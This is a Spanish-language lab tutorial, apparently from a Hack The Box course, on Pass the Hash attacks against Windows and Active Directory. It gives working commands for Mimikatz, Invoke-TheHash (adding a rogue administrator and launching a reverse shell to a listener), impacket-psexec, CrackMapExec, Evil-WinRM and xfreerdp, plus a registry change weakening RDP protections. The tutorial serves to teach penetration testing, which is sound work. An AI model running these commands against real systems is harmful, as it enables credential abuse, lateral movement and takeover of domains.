


# Pass the Hash (PtH)

Un ataque **Pass the Hash (PtH)** es una técnica en la que un atacante utiliza un hash de contraseña en lugar de la contraseña en texto plano para autenticarse. El atacante no necesita descifrar el hash para obtener la contraseña en texto claro. Los ataques PtH explotan el protocolo de autenticación, ya que el hash de la contraseña permanece estático en cada sesión hasta que la contraseña es cambiada.

Como se discutió en secciones anteriores, el atacante debe tener privilegios administrativos o permisos especiales en la máquina objetivo para obtener un hash de contraseña. Los hashes se pueden obtener de varias maneras, incluyendo:

* Volcado de la base de datos SAM local desde un host comprometido.
* Extracción de hashes de la base de datos NTDS (ntds.dit) en un Controlador de Dominio.
* Extracción de hashes de la memoria (lsass.exe).

Supongamos que obtenemos el hash de contraseña (64F12CDDAA88057E06A81B54E73B949B) para la cuenta julio del dominio **inlanefreight.htb**. Veamos cómo podemos realizar ataques Pass the Hash desde máquinas Windows y Linux.

> **Nota**: Las herramientas que utilizaremos están ubicadas en el directorio `C:\tools` en el host objetivo. Una vez que inicies la máquina y completes los ejercicios, podrás usar las herramientas en ese directorio. Este laboratorio contiene dos máquinas: tendrás acceso a una (MS01), y desde allí te conectarás a la segunda máquina (DC01).

## Introducción a Windows NTLM

El **New Technology LAN Manager (NTLM)** de Microsoft es un conjunto de protocolos de seguridad que autentican la identidad de los usuarios y protegen la integridad y confidencialidad de sus datos. NTLM es una solución de inicio de sesión único (SSO) que utiliza un protocolo de desafío-respuesta para verificar la identidad del usuario sin que este proporcione su contraseña.

A pesar de sus fallos conocidos, NTLM sigue siendo comúnmente utilizado para garantizar la compatibilidad con clientes y servidores heredados, incluso en sistemas modernos. Aunque Microsoft sigue soportando NTLM, Kerberos ha tomado su lugar como el mecanismo de autenticación predeterminado en dominios de Active Directory (AD) desde Windows 2000.

Con NTLM, las contraseñas almacenadas en el servidor y en el controlador de dominio no están "saladas", lo que significa que un atacante con un hash de contraseña puede autenticar una sesión sin conocer la contraseña original. A esto lo llamamos un ataque **Pass the Hash (PtH)**.


## Pasar el Hash con Mimikatz (Windows)

La primera herramienta que utilizaremos para realizar un ataque PtH es **Mimikatz**. Mimikatz tiene un módulo llamado `sekurlsa::pth` que permite realizar un ataque Pass the Hash iniciando un proceso utilizando el hash de la contraseña del usuario. Para usar este módulo, necesitaremos lo siguiente:

* `/user` - El nombre del usuario que queremos suplantar.
* `/rc4` o `/NTLM` - El hash NTLM de la contraseña del usuario.
* `/domain` - El dominio al que pertenece el usuario a suplantar. En el caso de una cuenta de usuario local, podemos usar el nombre del equipo, `localhost`, o un punto (.).
* `/run` - El programa que queremos ejecutar con el contexto del usuario (si no se especifica, lanzará `cmd.exe`).

**Ejemplo** de Pass the Hash desde Windows usando Mimikatz:

```shell
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

```yaml
user    : julio
domain  : inlanefreight.htb
program : cmd.exe
impers. : no
NTLM    : 64F12CDDAA88057E06A81B54E73B949B
```

Ahora podemos usar `cmd.exe` para ejecutar comandos en el contexto del usuario. En este ejemplo, julio puede conectarse a una carpeta compartida llamada julio en el **DC**.

<figure><figcaption></figcaption></figure>

## Pasar el Hash con PowerShell Invoke-TheHash (Windows)

Otra herramienta que podemos usar para realizar ataques PtH en Windows es **Invoke-TheHash**. Esta herramienta es una colección de funciones de PowerShell para realizar ataques Pass the Hash con **WMI** y **SMB**. Las conexiones WMI y SMB se acceden a través del **.NET TCPClient**. La autenticación se realiza pasando un hash NTLM al protocolo de autenticación NTLMv2. No se requieren privilegios de administrador local en el lado del cliente, pero el usuario y el hash que usamos para autenticarnos necesitan tener derechos administrativos en la computadora objetivo.

En este ejemplo usaremos al usuario julio y el hash **64F12CDDAA88057E06A81B54E73B949B**.

Al usar **Invoke-TheHash**, tenemos dos opciones: ejecución de comandos con **SMB** o **WMI**. Para usar esta herramienta, debemos especificar los siguientes parámetros para ejecutar comandos en la computadora objetivo:

* **Target** - Nombre de host o dirección IP del objetivo.
* **Username** - Nombre de usuario para la autenticación.
* **Domain** - Dominio para la autenticación. Este parámetro no es necesario con cuentas locales o al usar `@dominio` después del nombre de usuario.
* **Hash** - Hash NTLM de la contraseña para autenticación. Este comando acepta el formato **LM**o **NTLM**.
* **Command** - Comando a ejecutar en el objetivo. Si no se especifica un comando, la función verificará si el usuario y el hash tienen acceso a WMI en el objetivo.

El siguiente comando usará el método SMB para ejecutar un comando y crear un nuevo usuario llamado mark y agregarlo al grupo de Administradores.

```powershell
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

### Listener de Netcat y Reverse Shell

Podemos obtener una conexión de reverse shell en la máquina objetivo utilizando **Netcat**. Por ejemplo, si nuestra máquina Windows tiene la dirección IP **172.16.1.5**, podemos iniciar un listener en el puerto **8001**.

```powershell
PS C:\tools> .\nc.exe -lvnp 8001
listening on [any] 8001 ...
```

Para crear una simple reverse shell usando PowerShell, podemos visitar [https://www.revshells.com](https://www.revshells.com), establecer nuestra IP **172.16.1.5** y puerto **8001**, y seleccionar la opción **PowerShell #3 (Base64)**.

<figure><figcaption></figcaption></figure>

### **Invoke-TheHash con WMI (Windows)**

`Invoke-TheHash` es un módulo de PowerShell que permite ejecutar comandos en sistemas remotos utilizando el hash de una contraseña. En este caso, se emplea el hash NTLM para ejecutar un comando PowerShell en el objetivo `DC01`.

```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e [comando_base64]"
```

En este caso, el comando ejecutado con éxito en `DC01` da como resultado una **shell inversa** desde el host `DC01`.

<figure><figcaption></figcaption></figure>

## **Pass the Hash con Impacket PsExec (Linux)**

Impacket es una colección de scripts en Python que permiten realizar diversas operaciones, como la ejecución de comandos y la autenticación en sistemas remotos. Con `impacket-psexec`, se puede ejecutar comandos en un sistema remoto utilizando el hash NTLM de una cuenta.

```bash
sherlock28@htb[/htb]$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Este comando crea una sesión remota en la máquina con dirección `10.129.201.126` usando el hash proporcionado.

## **Pass the Hash con CrackMapExec (Linux)**

`CrackMapExec` es una herramienta muy utilizada para evaluar redes de **Active Directory**. Con ella, puedes autenticarte en varios hosts de una red para identificar aquellos donde puedas ejecutar comandos.

Ejemplo de uso con Pass the Hash:

```bash
sherlock28@htb[/htb]# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

Este comando realiza un intento de autenticación en todos los hosts de la red `172.16.1.0/24` usando el hash del administrador. Si el intento es exitoso en alguno de los hosts, se muestra como "Pwn3d!" en la salida.

## **Pass the Hash con Evil-WinRM (Linux)**

`Evil-WinRM` es otra herramienta que permite la autenticación remota en sistemas Windows utilizando PowerShell Remoting. Puedes autenticarse usando un hash en lugar de la contraseña:

```bash
sherlock28@htb[/htb]$ evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

Esto abrirá una sesión de PowerShell en la máquina remota `10.129.201.126` con el usuario `Administrator` usando el hash proporcionado.

## **Pass the Hash con RDP (Linux)**

También se puede usar el protocolo **RDP** para realizar un ataque Pass the Hash y obtener acceso gráfico a una máquina remota. Esto se hace con `xfreerdp`:

```bash
sherlock28@htb[/htb]$ xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

Esto intentará conectarse a la máquina con RDP usando el hash en lugar de la contraseña.

<figure><figcaption></figcaption></figure>

#### Consideraciones:

* **UAC (User Account Control)** puede limitar el alcance de estos ataques en cuentas locales.
* En algunos casos, es necesario habilitar **Restricted Admin Mode** en el host objetivo para que el ataque funcione correctamente.

Para ello, puedes agregar la siguiente clave al registro del sistema en la máquina objetivo:

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0
```
